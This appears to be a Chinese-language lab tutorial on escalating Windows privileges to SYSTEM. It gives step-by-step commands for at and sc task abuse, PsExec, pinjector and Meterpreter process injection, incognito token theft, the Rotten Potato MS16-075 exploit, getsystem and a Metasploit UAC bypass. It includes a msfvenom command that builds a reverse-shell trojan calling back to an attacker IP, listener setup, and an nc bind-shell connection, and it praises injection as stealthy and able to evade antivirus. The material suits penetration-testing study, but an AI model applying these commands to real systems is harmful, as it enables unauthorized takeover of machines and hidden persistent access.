# 1. 前言

在之前的文章中已经对Windows的权限提升进行了介绍，这里同样不再赘述，如果想要去了解Windows权限提升可以看以下的文章，同时也将Windows权限提升其它的几种办法也放在下面的文章中。

同时本来应该还写一篇第三方全家提权的，但是在实际测试过程中发现，有些第三方提权，如果在电脑上都会自动更新，比如向日葵，低版本的直接无法连接向日葵官方的服务器，那么提个毛权限的啊。

# 2. at本地命令提权

at 是一个发布定时任务计划的命令行工具，语法比较简单。通过 at 命令发布的定时任务计划， Windows 默认以 SYSTEM 权限运行。

## 2.1. 适用范围

at本地命令提权主要是用于在Windows2000、Windows 2003、Windows XP 这三类系统中，我们可以轻松将 Administrators 组下的用户权限提升到 SYSTEM。

其它系统已经不支持提权了。

## 2.2. 命令使用

```
语法：at 时间 命令
例子：at 10:45PM calc.exe
```

## 2.3. 操作步骤

### 2.3.1. 模拟提权

这里可以模拟一下操作提权，使用2003系统，设定一个定时任务，设定10:45分启动cmd .exe，这里可以通过添加“/interactive”开启界面交互模式。

通过执行定时任务后就会提升权限。

```
at 10:45 /interactive cmd
```



### 2.3.2. at配合msf提权

可以在msf下生成一个木马文件，然后在shell交互中设置at命令进行执行程序，上线后即为system权限。

#### 2.3.2.1. 生成木马文件

通过命令生成一共木马文件，然后将这个木马文件放入2003中去执行，这里其实就是模拟在上传webshell后，上传后门木马文件，然后执行木马文件，只是这里为了方便节省了，直接上传一个木马即可。

至于运行木马就不演示了。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.20 LPORT=4444 -f exe > shell.exe
```



#### 2.3.2.2. 设置监听

这里设置一个监听，用于接收反弹回来的shell。

```
msfconsole 
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 192.168.10.20 
set LPORT 4444 
run
```



#### 2.3.2.3. 设置反弹

这里在接收到msf木马反弹回来的shell后，进入shell后执行下面的命令。

```
at 11:11 C:\111\shell.exe
```



#### 2.3.2.4. 查看反弹效果

通过另外再启动一个监听端口的，来查看新反弹回来的权限是什么，可以看到到11点11分的时候执行shell.exe，反弹回来的就是system权限。

```
getuid
```



# 3. sc本地命令提权

sc是用于与服务控制管理器和服务进行通信的命令行程序，提供的功能类似于控制面板中管理工具项中的服务。

## 3.1. 适用范围

网上说在windows 7/8，Windows server2003、2008、2012、2016上都能使用，这里的都能只适用于sc这条命令本身。

而利用sc进行提权，通过测试，目前好像只有2003可以。

## 3.2. 命令使用

```
sc Create systemcmd binPath= "cmd /K start" type= own type= interact  #其中systemcmd是服务名称，大家可以随意填写，binpath是启动的命令，type=own是指服务这个服务属于谁，type=interact，cmd/k start 这个命令，这个命令就是启动一个新的cmd窗口。
sc start syscmd     ###启动服务！
```

## 3.3. 操作步骤

这里就是先执行第一条命令，然后在执行第二条命令即可，这里我执行失败是由于我之前已经测试过了，正常情况下应该是第一条命令执行后显示成功。第二条就是这样的，这不不受之前测试的影响。



# 4. ps提权

pstools是微软官方工具，是为windows提供的第三方工具库。

## 4.1. 适用范围

在Windows server 2003/2008/2012/2016中测试都是能用的，在Windows 7/8/10由于需要调用服务，而个人主机通常没有这类服务所以就会出现调用失败的情况。

## 4.2. 下载链接

[PsTools](https://learn.microsoft.com/zh-cn/sysinternals/downloads/pstools)

## 4.3. 命令使用

```
psexec.exe -accepteula -s -i -d cmd.exe  ##前面的psexec.exe是工具包中的工具
```

## 4.4. 操作步骤

### 4.4.1. 下载psexec.exe工具

通过页面上的下载tool工具集合，在压缩包中找到psexec.exe工具。



### 4.4.2. 执行psexec.exe工具

将psexec.exe工具上传至需要提权的系统中，然后执行命令。



# 5. 进程迁移注入提权

进程迁移注入提权就是将获取到权限低的进程注入至进程中权限高的中，这样就实现了权限提升，同时注入进程提权相当于开启了一个后门， 隐蔽性极高，不会创建新的进程，很难发现。

## 5.1. 前提条件

这里如果使用的是web权限是无法执行的，必须获取到类似与administrator的权限才能进行进程注入。同时这类提权是不会被杀毒软件拦截的，这是系统的一种特性。

## 5.2. pinjector.exe进程注入

pinjector工具实现进程注入，这里需要先下载工具，然后将工具上传需要提权的系统中即可。

### 5.2.1. 下载链接

[pinjector工具](https://www.tarasco.org/security/Process_Injector/index.html)

### 5.2.2. 使用命令

```
pinjector.exe -l    ##列取所有进程
pinjector.exe -p <pid> cmd <port>  ##选择一个system权限运行的进程，对此pid进程执行注入，并建立侦听端口
```

### 5.2.3. 操作步骤

#### 5.2.3.1. 列出所有进程

这里通过命令查看所有进程的权限。



#### 5.2.3.2. 绑定进程

通过使用命令将权限绑定至system权限的进程中，这里选在进程最好绑定系统进程，这样能够实现开机自启。



#### 5.2.3.3. 连接进程

这里使用kali设置个nc连接一下即可。

```
nc -nv 192.168.10.200 5555
```



## 5.3. MSF进程注入

首先需要生成一个木马然后让其上线，并连接上去，这里我就用之前已经生成好的木马，就不再生成了，在上面也提到过MSF生成木马的命令。

### 5.3.1. 查看进程

在反弹回来的界面输入命令，然后查看所有进程已经相应的权限。

```
ps ##查看进程
```



### 5.3.2. 迁移进程

使用命令将进程迁移进拥有system权限的进程中，通过迁移后，再执行命令就可以看到权限已经提升为system了。

```
migrate PID 迁移进程，这个pid是你选择进程的id号
```



# 6. 令牌窃取提权

令牌(token)是系统的临时秘钥，相当于账号和密码，用来决定是否允许这次请求和判断这次请求是属于哪一个用户的。它允许你在不提供密码或其他凭证的前提下，访问网络和系统资源，这些令牌将持续存在于系统中，除非系统重新启动。令牌最大的特点就是随机性，不可预测，黑客或软件无法猜测出令牌。

而令牌窃取就是通过假冒一个网络中的另一个用户进行各类操作。

## 6.1. 注意事项

不能保证所有的服务器都能实现令牌窃取，比如我使用Windows server 2003服务器的时候，就没出现NT AUTHORITY\SYSTEM，而没出现NT AUTHORITY\SYSTEM就无法提权到system权限。

## 6.2. MSF令牌窃取提权

首先需要将木马上传至需要提权的服务器中，然后执行命令进行令牌窃取提权。

```
use incognito
list_tokens -u           #列出有的令牌
impersonate_token "NT AUTHORITY\SYSTEM" #窃取system令牌
```



## 6.3. 烂土豆提权

### 6.3.1. 烂土豆提权原理

烂土豆(Rotten Potato) MS16-075 提权是一个本地提权，只针对本地用户，不支持域用户。

欺骗 “NT AUTHORITY\SYSTEM”账户通过NTLM认证到我们控制的TCP终端，对这个认证过程使用中间人攻击（NTLM重放），为“NT AUTHORITY\SYSTEM”账户本地协商一个安全令牌。这个过程是通过一系列的Windows API调用实现的，模仿这个令牌。只有具有“模仿安全令牌权限”的账户才能去模仿别人的令牌。一般大多数的服务型账户（IIS、MSSQL等）有这个权限，大多数用户级的账户没有这个权限。

### 6.3.2. 适用版本

Windows 7/8/10，Windows server 2008/2012

### 6.3.3. 下载链接

[烂土豆ms16-075](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075)

### 6.3.4. 操作步骤

这里首先需要将烂土豆工具给上传至需要提权的机器中，然后进行执行。

#### 6.3.4.1. 注意事项

这里网上的教程需要先查看一些条件，我个人的理解是，不如直接进行提权，能成功则能成功，不能成功那就是不能成功，且在现实的环境中，很多提权都会遇到问题。

#### 6.3.4.2. 使用烂土豆提权

首先执行potato.exe程序，然后再去加载incoginto功能，其次列出目标机器可窃取的令牌，然后在进行窃取。

```
execute -cH -f ./potato.exe    ##执行烂土豆程序
use incognito                  ##加载窃取功能
list_tokens -u                 ##查看可窃取的令牌
impersonate_token "NT AUTHORITY\SYSTEM"   ##使用令牌
```



# 7. MSF自动化提权

这个提权其实很简单，这个MSF自动化提权和之前在溢出提权中提到的自动化提权是不一样的，溢出提权中提到的自动化提权是通过比对补丁信息进行提权，而这个是自动化提权是直接输入命令后，MSF自动执行，只会显示提权成功与失败。

## 7.1. getsystem提权

### 7.1.1. getsystem原理

- getsystem创建一个新的Windows服务，设置为SYSTEM运行，当它启动时连接到一个命名管道。
- getsystem产生一个进程，它创建一个命名管道并等待来自该服务的连接。
- Windows服务已启动，导致与命名管道建立连接。
- 该进程接收连接并调用ImpersonateNamedPipeClient，从而为SYSTEM用户创建模拟令牌。

### 7.1.2. 提权操作

这里和其它都是一样的，首先需要将木马连接上msf，然后输入命令进行提权。

```
getsystem ##自动化提权
```



## 7.2. uac提权

UAC(User Account Control，用户帐户控制)是微软为提高系统安全而在Windows Vista中引入的新技术，它要求用户在执行可能会影响计算机运行的操作或执行更改影响其他用户的设置的操作之前，提供权限或管理员‌密码。

也就是说一旦用户允许启动的应用程序通过UAC验证，那么这个程序也就有了管理员权限。如果我们通过某种方式劫持了通过用户UAC验证的程序，那么相应的我们的程序也就实现了提权的过程。

### 7.2.1. 提权操作

#### 7.2.1.1. 确认getsystem无法提权

这里在反弹回来的时候测试一下getsystem是否无法提权。



#### 7.2.1.2. 搜索uac

这里先搜索uac，因为这里面有些uac可能对不同的系统会有不同的作用。

```
search uac ##搜索
```



#### 7.2.1.3. 使用uac

这里我们使用的是Windows7，那么我们就使用exploit/windows/local/ask来执行。

```
use exploit/windows/local/ask    ##选择模块
sessions         ##查看后台进程
set session 1    ##选择进程
set lport 5555   ##设置监听端口，有时候返回回来会出现错误，所以就另起一个监听。
```



这里查看一下监听，看看返回的权限，然后在返回的权限中再次使用getsystem，发现能够提权到system权限。

